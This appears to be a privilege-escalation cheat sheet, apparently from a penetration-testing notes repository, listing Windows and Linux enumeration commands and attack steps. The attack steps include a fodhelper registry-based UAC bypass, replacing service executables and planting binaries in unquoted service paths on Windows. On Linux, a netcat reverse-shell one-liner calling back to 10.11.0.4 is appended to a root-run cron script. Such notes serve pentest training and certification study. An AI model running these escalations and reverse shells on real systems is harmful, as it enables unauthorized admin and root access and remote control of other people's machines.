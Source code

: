 ### Windows
##### Processes(Windows can't list processes run by privileged users)
tasklist /svc
##### Firewall
netsh advfirewall show currentprofile  
netsh advfirewall show allprofile  
netsh advfirewall firewall show rule name=all
##### Scheduled Tasks
schtasks /query /fo LIST /v
##### Enumerating Unmounted Disks
mountvol
##### Enumerating Device Drivers and Kernel Modules
1. driverquery /v /FO Table  
2. Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
##### Enumerating Binaries That AutoElevate
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer  
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
##### Bypass UAC
```
1. check C:\Windows\System32\fodhelper.exe
2. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
3. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
4. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
5. run fodhelper.exe, whoami /groups
```
##### Insecure File Permissions
```
1. Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} # look for services with path in Program Files
2. icacls "service path"
3. replace malicious exe with service executable
4. Get-WmiObject -Class Win32_Service -Property StartMode -Filter "Name='Service Name'"
5. whoami /priv #check out shutdown privileges of user
```
##### Unquoted Service Paths
```
Service Path:
C:\Program Files\My Program\My Service\service.exe
The Service will run the executable in path like this:
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

For example, we could name our executable Program.exe and place it in C:\, or name it My.exe and place it in C:\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\Program Files\My Program in our example) or subdirectory (C:\Program Files\My Program\My service) is misconfigured, allowing us to plant a malicious My.exe binary
```

### Linux
##### Kernel exploits
```
OS version:
cat /etc/issue  
cat /etc/*-release  
Kernel Version and Architecture: 
uname -a
```
##### Processes(Linux can list processes run by privileged users)
ps aux
##### Enumerating Readable/Writable Files and Directories
find / -writable(-readable,-executable) -type d(f) 2>/dev/null  
##### Enumerating Unmounted Disks
mount  
lsblk
##### Enumerating Device Drivers and Kernel Modules
1. lsmod  
2. /sbin/modinfo libata
##### Enumerating Binaries That AutoElevate
>Normally, when running an executable, it inherits the permissions of the user that runs it. However, if the SUID permissions are set, the binary will run with the permissions of the file owner. This means that if a binary has the SUID bit set and the file is owned by root, any local user will be able to execute that binary with elevated privileges
 ```
 find / -perm -u=s -type f 2>/dev/null
 ```
 ##### Cronjob to elevate privilege
 ```
 1. grep "CRON" /var/log/cron.log
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
2. ls -lah /var/scripts/user_backups.sh
-rwxrwxrw- 1 root root 52 ian 27 17:02 /var/scripts/user_backups.sh
3. echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
 ```
